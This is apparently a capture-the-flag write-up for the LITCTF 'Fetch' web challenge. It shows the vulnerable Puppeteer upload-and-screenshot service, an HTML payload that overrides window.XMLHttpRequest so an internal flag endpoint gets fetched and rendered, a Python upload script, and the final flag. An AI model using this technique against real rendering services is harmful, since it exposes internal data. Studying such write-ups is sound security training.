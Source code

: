# **Fetch**
fetch me the flag at http://litctf.org:31770/

## **Description**
We are given a url and source code for the application. Inspecting the URL, we see primarily just text that seems to describe the fetch api. After a second however, there is a popup that says `Looks like you're getting somewhere!`.

The web source as well as the source code shows that there is an endpoint `/runHTML` which takes a file, loads it, then within the file context, calls `window.XMLHTTPRequest()` to fetch the flag string from a different non public endpoint. Finally it takes a screenshot and sends that back to us.

```js
const runHTMLFile = async (filePath) => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto(`file:${filePath}`);

  await page.evaluate(() => {
    const req = new window.XMLHttpRequest();
    req.open("GET", "http://localhost:6969/" + randomString, false);
    req.send(null);
  });
  const screenshot = await page.screenshot({
    path: filePath.replace(".html", ".png"),
    fullPage: true,
    type: "png",
  });
  await browser.close();

        return filePath.replace(".html", ".png");
};
```

## **Solution**
We can take advantage of the function called and can overwrite `window.XMLHttpRequest` to instead read the content of the file and render it in the DOM. Here is the final `index.html` used.

```html
<script>
    class D {
        open(content, url) {
            const container = document.createElement('div');
            fetch(url).then((d) => d.text().then((d) => {
                container.innerText = d;
            }))
            document.body.appendChild(container);
        }
        send(...args) {
            ;
        }
    }
    window.XMLHttpRequest = D;
</script>
```

And can then send this file to the `runHTML` endpoint, write the output to a png file, and then view it.
```py
import requests
import os

multipart_form_data = {
    'file': ('asdf', open('index.html', 'rb'), 'text/html'),
}

response = requests.post('http://litctf.org:31770/runHTML', files=multipart_form_data)
with open('out.png', 'wb+') as f:
    f.write(response.content)

os.system('wslview out.png')
```
![output](image.png)


---
## **Flag**: `LITCTF{wow_i_actually_love_the_fetch}`
---

